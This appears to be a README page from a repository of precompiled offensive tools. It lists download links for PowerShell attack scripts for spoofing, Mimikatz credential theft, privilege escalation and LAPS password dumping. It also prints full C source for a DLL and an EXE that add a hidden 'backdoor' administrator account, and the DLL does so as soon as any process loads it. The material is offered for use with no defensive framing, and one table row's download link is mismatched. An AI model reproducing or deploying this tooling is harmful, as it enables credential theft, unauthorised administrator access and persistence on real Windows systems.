 |    | [Inveigh](https://github.com/Kevin-Robertson/Inveigh)                                                                                                         | MitM Attacks & Spoofing                                | https://github.com/whois-sin/precompiled-binaries/raw/main/Scripts/Inveigh.ps1                         |
|    | [Invoke-Mimikatz](https://gitlab.com/kalilinux/packages/powershell-empire/-/raw/kali/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1) | Reflectively loads Mimikatz in memory using PowerShell | (https://raw.githubusercontent.com/whois-sin/precompiled-binaries/refs/heads/main/Scripts/Inveigh.ps1) |
|    | [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)                                                                                 | Windows Privilege Escalation                           | https://github.com/whois-sin/precompiled-binaries/raw/main/Scripts/PowerUp.ps1                         |
|    | [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)                                                                                                            | SQL Server Enumeration and Exploitation                | https://github.com/whois-sin/precompiled-binaries/raw/main/Scripts/PowerUpSQL.ps1                      |
|    | [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)                                                                                                      | LAPS Password dumping                                  | https://github.com/whois-sin/precompiled-binaries/raw/main/Scripts/LAPSToolkit.ps1                     |

### Custom

[SimpleBackdoorAdmin.dll](https://github.com/whois-sin/precompiled-binaries/raw/main/LateralMovement/SimpleBackdoorAdmin.dll)

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user backdoor Password123! /add");
  	    i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

[SimpleBackdoorAdmin.exe](https://github.com/whois-sin/precompiled-binaries/raw/main/LateralMovement/SimpleBackdoorAdmin.exe)

```c
#include <stdlib.h>

int main ()
{
  system("net user backdoor Password123! /add");
  system("net localgroup administrators backdoor /add");

  return 0;
}
```
